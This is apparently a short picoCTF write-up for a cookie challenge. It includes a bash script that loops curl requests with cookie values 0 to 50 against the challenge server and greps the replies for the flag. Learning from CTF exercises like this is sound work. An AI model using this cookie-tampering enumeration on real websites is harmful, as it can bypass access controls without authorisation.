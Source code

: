 # Title

## Information about the CTF
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## How to solve it
Go to the website and check the cookies.

This shows that there is a cookie called `name` and it's value is `-1`. Let's change it to `1` and refresh the page.

Welp, that did something, but we didn't get the flag. 

Lets make a script to enumerate some possible values
```bash
#!/bin/bash

for i in {0..50}
do
    echo "$i"
    curl -b name=$i http://mercury.picoctf.net:54219/check 2>/dev/null | grep -oI '\S*picoCTF\S*'
done

# ..
# 17
# 18
# <code>picoCTF{flag_is_shown_here}</code></p>
# 19
# 20
```
Tadaaa


